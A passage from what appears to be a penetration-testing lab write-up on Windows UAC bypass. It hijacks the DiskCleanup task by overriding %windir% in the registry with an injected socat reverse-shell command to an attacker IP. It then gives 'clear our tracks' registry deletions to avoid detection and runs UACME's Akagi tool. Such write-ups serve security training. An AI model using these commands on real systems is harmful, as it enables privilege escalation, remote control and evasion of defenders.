delete key to clear tracks:
```batch
reg delete HKCU\Software\Classes\ms-settings\ /f
```


The task can be run on-demand, executing the following command when invoked:

 `%windir%\system32\cleanmgr.exe /autoclean /d %systemdrive%`

Since the command depends on environment variables, we might be able to inject commands through them and get them executed by starting the DiskCleanup task manually.

Luckily for us, we can override the `%windir%` variable through the registry by creating an entry in `HKCU\Environment`. If we want to execute a reverse shell using socat, we can set `%windir%`  as follows (without the quotes):

`"cmd.exe /c C:\tools\socat\socat.exe TCP:<attacker_ip>:4445 EXEC:cmd.exe,pipes &REM "`

At the end of our command, we concatenate "&REM " (ending with a blank space) to comment whatever is put after `%windir%` when expanding the environment variable to get the final command used by DiskCleanup. The resulting command would be (be sure to replace your IP address where needed):

`cmd.exe /c C:\tools\socat\socat.exe TCP:<attacker_ip>:4445 EXEC:cmd.exe,pipes &REM \system32\cleanmgr.exe /autoclean /d %systemdrive%`

Where anything after the "REM" is ignored as a comment.


###   Clearing our tracks

As a result of executing this exploit, some artefacts were created on the target system, such as registry keys. To avoid detection, we need to clean up after ourselves with the following command:

```batch
reg delete "HKCU\Environment" /v "windir" /f
```

### Automating UAC Bypasses

An excellent tool is available to test for UAC bypasses without writing your exploits from scratch. Created by @hfiref0x, UACME provides an up to date repository of UAC bypass techniques that can be used out of the box. The tool is available for download at its official repository on:

[https://github.com/hfiref0x/UACME](https://github.com/hfiref0x/UACME)

While UACME provides several tools, we will focus mainly on the one called Akagi, which runs the actual UAC bypasses. You can find a compiled version of Akagi under `C:\tools\UACME-Akagi64.exe`.


Using the tool is straightforward and only requires you to indicate the number corresponding to the method to be tested. A complete list of methods is available on the project's GitHub description. If you want to test for method 33, you can do the following from a command prompt, and a high integrity cmd.exe will pop up:

Command Prompt

```shell-session
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\attacker>cd /tools

C:\tools>UACME-Akagi64.exe 33
```
